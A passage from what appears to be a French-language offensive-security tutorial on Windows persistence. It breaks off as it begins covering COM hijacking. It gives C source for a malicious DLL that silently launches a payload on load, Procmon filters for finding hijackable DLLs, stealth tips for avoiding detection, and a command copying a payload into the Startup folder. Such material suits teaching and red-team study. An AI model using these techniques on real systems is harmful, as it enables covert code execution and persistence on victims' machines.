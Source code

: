### DLL Hijacking

Le détournement de DLL (DLL Hijacking) exploite la façon dont Windows recherche les bibliothèques dynamiques lors du chargement d'une application. En plaçant une DLL malveillante à un emplacement où elle sera chargée avant la DLL légitime, on peut exécuter du code arbitraire lorsque l'application cible est lancée.

Pour identifier les opportunités de DLL Hijacking :

```
Process Monitor (Procmon.exe) avec les filtres :
- Result is "NAME NOT FOUND"
- Path ends with ".dll"
```

Une fois une cible identifiée, on peut créer une DLL malveillante qui exporte les fonctions attendues par l'application tout en exécutant du code malveillant :

```c
// malicious.dll
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    if (fdwReason == DLL_PROCESS_ATTACH) {
        // Code malveillant ici
        WinExec("C:\\Windows\\Temp\\payload.exe", SW_HIDE);
    }
    return TRUE;
}

// Exporter les fonctions attendues par l'application
__declspec(dllexport) void ExportedFunction() { /* Implémentation minimale */ }
```

Cette DLL, placée au bon endroit, sera chargée par l'application cible, exécutant ainsi la charge utile.

Le DLL Hijacking est particulièrement efficace pour la persistance car il s'appuie sur des applications légitimes, rendant la détection plus difficile. Cependant, les défenseurs peuvent utiliser des outils comme Autoruns pour identifier les DLL suspectes ou surveiller les chemins de recherche de DLL inhabituels. Pour maximiser la discrétion, il est recommandé de cibler des applications rarement utilisées mais lancées automatiquement, et d'implémenter correctement les fonctions exportées pour éviter les crashs.

### Autres techniques de persistance Windows

Plusieurs autres mécanismes peuvent être utilisés pour la persistance sous Windows :

Le dossier Startup permet d'exécuter des programmes à la connexion d'un utilisateur :

```
copy payload.exe "C:\Users\utilisateur\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
```

Les COM Hijacking exploite le mécanisme Component Object Model de Windows en remplaçant ou en modifiant les entrées de registre associées aux objets COM légitimes :
